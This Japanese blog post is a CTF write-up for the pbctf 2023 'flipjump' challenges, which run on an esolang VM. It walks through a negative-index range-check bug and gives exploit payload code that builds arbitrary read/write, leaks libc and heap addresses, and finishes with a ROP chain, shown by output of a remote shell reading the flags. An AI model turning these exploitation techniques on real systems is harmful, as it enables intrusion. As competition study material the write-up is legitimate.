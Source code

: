 ```yaml
---
layout: page
title: "pbctf2023 flipjump 1, 1.5, 2"
date: 2023-02-21 00:00:00 -0000
---
```


flipjumpというesolang（https://esolangs.org/wiki/FlipJump）の問題です。

flipjumpはかなり簡単で、`p64((addr << 3) | bit) + p64(next)`という形で、フリップしたい１ビットを`addr`と`bit`で指定し、次の命令の位置を`next`で指定します。これだけです。1命令16バイトです。

この問題はただ命令を処理するだけでなく、謎のゲーム形式になっています。２つのプレイヤーがいて、それぞれのvm上でflipjumpをして、プレイヤー１にロードされた０から１５のランダムな数字を、プレイヤー２が当てると、ゲームをもう一度プレイできます。当てられないとその場でexitが走ります。プレイヤー１とプレイヤー２の間にはvm外で1ビットだけフリップできます。

## flipjump1 (misc)
実装ミスだったようで後に1.5が出ます。プレイヤー１のあと、戻り値が表示されていますので、その値をプレイヤー２で作り直すことができました。miscなので、これを所定の回数繰り返すとフラグが得られます。

## flipjump1.5 (misc)
上記のテクニックは相対アドレスのAARになっているので、これを利用してpwnのflipjump2を触っていたところ、リモートでリークが来ないぞ？→どうやら修正が来ているらしい→その修正は2も来ているらしいとなり、泣きながら再ダウンロードします。

修正後の流れは、プレイヤー１、プレイヤー２、そのあとに戻り値の表示となるので、プレイヤー２はランダム値を当てないといけません。

入力するコードサイズが256より小さいと、変なオーバーフローが起こるので、これを使ってどうにか戻り値が固定になるようにしようとしたり、ランダム値を持つ行を`next`に指定して、ジャンプテーブルで受けるという実装を作ったりしましたが、肝心のランダム値に関する値をプレイヤー２に残すことができずに終わりました。

vm外1ビットフリップ、謎のオーバーフロー、miscであることなどに引きずられ視界から外れていましたが、バグは範囲チェックにいました。

`param_1[1]`はコードサイズにあたりますが、`lVar1_next_index`の最大値の比較が不適切で、負の値が入ります。この問題はこれだけで全部解けます。

```c
    if ((lVar1_next_index < 0) || (param_1[1] <= lVar1_next_index * 2 + 1)) {
      exit(1);
    }
    *(int *)(param_1 + 2) = (int)lVar1_next_index;
```

今回のheapでは、プレイヤー２の隣接上側はプレイヤー１の領域があります。ランダム値もこれでアクセスできるので、後はそこを`next_index`に指定して、飛び先に合わせて値を作り直してあげればよいです。

具体的に、例えばプレイヤー１のランダム値が３だったら、飛び先でプレイヤー２の戻り値を３にするようにflipjumpのコードをセットします。

これにはindexの0から15には、それぞれ処理するアドレスに飛ぶジャンプテーブルを用意して、後ろ側で値を作り直してあげればよいでしょう。vm起動時にはいきなりマイナス方向に飛べないので、一旦後ろの方にジャンプして、index 0を修正してマイナス方向に飛ぶloader部と、リターンアドレスに値を追加することでAARになることが分かっていたので、これを付け加えるfinal部を付け加えて作っておきます。

```python
size = 0x1000                   
loader = 0xc00
final = 0xe00
target = 0xef0
p1ret = 0x7fffffffffffffec
waste = target-1 # garbage flips

def fj(flip_byte, flip_bit, next_idx):
    return flat( flip_byte << 3 | flip_bit, next_idx )

payload = b''
payload += fj(waste, 1, loader >> 4) # will be rewrite to fj(waste, 1, 0x10) by loader

# jump tables except #0
for i in range(1, 0x10):
    payload += fj( waste, 1, 0x10 + i * 0x9)

# re-construct each value [ex. jump from #3 table --> return 3]
# p2ret addr is target + 8
for i in range(0x10):
    for j in range(8):
        if (i >> j) & 1 == 1:
            payload += fj( target+8, j, 0x10 + i * 0x9 + (j+1)*0x1)
        else:
            payload += fj( waste, 0, 0x10 + i * 0x9 + (j+1)*0x1)
    payload += fj( waste, 0, final>>4)
assert(len(payload) < (loader))

# loader: fix table #0 and jump to the value p1ret 
payload = payload.ljust(loader, b'b')
payload += fj(8, 6, (loader>>4) + 0x1) # 0xc0 --> 0x80
payload += fj(8, 7, (loader>>4) + 0x2) # 0x80 --> 0x00
payload += fj(8, 4, p1ret) # 0x00 --> 0x10

# final: do something if you need after reconstruct p1ret
payload = payload.ljust(final, b'c')
#payload += fj(target+0x9, 2, final>>4 + 0x1)
#payload += fj(size-1, 0, final>>4 + 0x2)
payload += fj(size, 0, 0) # this will escape from vm 

payload = payload.ljust(target, b'd')

# keep p2ret clean
payload += fj(target, 0, 0)
payload = payload.ljust(size, b'e')
```

このコードで、loader部に飛んで、index0を直してランダム値に飛んで、ランダム値がnext_indexとなってジャンプテーブルに飛んで、そこから値を再構築するところに飛び、最後にfinal部を通ってうまく作成してくれます。愚直に所定回数やればよいです。

```python
for i in range(0x45):
    r.sendafter(b'length:\n', p64(0x410))
    r.sendafter(b'code:\n', b'a'*0x300+flat(0xee8<<3, 0xbeef) + b'b'*0x100)
    r.sendafter(b'length:\n', p64(size))
    r.sendafter(b'code:\n', payload)
    print(r.sendafter(b'Play again? (Y/N)\n', b'Y'))
```

## flipjump 2
ここではループとvm外フリップを利用してAAR/AAWを構築する必要があります。なので前提として1.5を解けることが必要です。vm外フリップは、プレイヤー１の戻り値に従って動きます。

プレイヤー１の戻り値は、デフォルトはランダム値がセットされ、プレイヤー１のvmが終了した後、`(addr << 3) | bit`として解釈され、該当のビットが反転されます。問題なのは、デフォルトでランダム値なので、ビットの部分がランダムになることです。特にAARは読めるまで待てばよいですが、AAWは、狙って書くのが恐ろしく低い確率になりそうなので、任意に指定できるように変えていきます。

ループを続けるためには元のランダム値は残しておかないといけませんので、近くにコピーし、戻り値のランダム値は消し、任意の値を戻り値にするように書き込みます。

任意の値を入れるためには8*6ビットで48命令は必要で、これはサイズにすると0x300となり、コード構成の都合上何かを小さくする必要がありました。再構築用の部分が愚直に`16 x 8`で0x800使っているので、これを縮めることを考えます。いろいろ解決策がありそうですが、全部まとめて処理しようと考えました。

要するにまず15から飛んで来たら15にしたいので、4ビットフリップします。

```
# Label 0xf
fj(target, 0, next)
fj(target, 1, next)
fj(target, 2, next)
fj(target, 3, next)
```

次に14から来たら14にしたいので、1ビットフリップします。

```
# Label 0xe
fj(target, 0, next)
# Label 0xf
fj(target, 0, next)
fj(target, 1, next)
fj(target, 2, next)
fj(target, 3, next)
```

次は13です。同じように考えます。

```
# Label 0xd
fj(target, 0, next)
fj(target, 1, next)
# Label 0xe
fj(target, 0, next)
# Label 0xf
fj(target, 0, next)
fj(target, 1, next)
fj(target, 2, next)
fj(target, 3, next)
```

この調子で0まで行くと、テーブルサイズは0x800から0x1d0にまで落ちます。これなら大丈夫そうです。

後は、再構築テーブルにランダム値を消すコードを加えて、final部に任意の値を書くところを追加すれば、AAR/Wが完成します。

exploitパートはかなり単純で、適当にlargebinを作った後は、libc、heap、environをリークして、今回はコントロール可能なmainからのreturnがあるので、ropをおいてそこに飛びます。このAARは読み先を破壊するので、environについては戻す必要がありました。

コードは[こちら](https://github.com/jt00000/ctf.writeup/blob/master/pbctf2023/flipjump/solve.py)

```
[+] Opening connection to flipjump2.chal.perfect.blue on port 1337: Done
    -> base: 0x7fb057939000
    -> heap: 0x556b24656000
    -> stack: 0x7ffe4abacb08
    -> rop_addr: 0x7ffe4abac9e8
[*] Switching to interactive mode
$ ls
flag1
flag2
flipjump
$ cat flag*
pbctf{you_went_ham_peko_81d5f1b3}
pbctf{you_are_a_certified_flip_jumper_de_gozaru}
```

範囲チェックは結構してたんですが、ほかに分かりやすいバグがあるとそっちに目移りしてしまってダメですね。flipjumpのコードを考えるのがおもしろかったです。
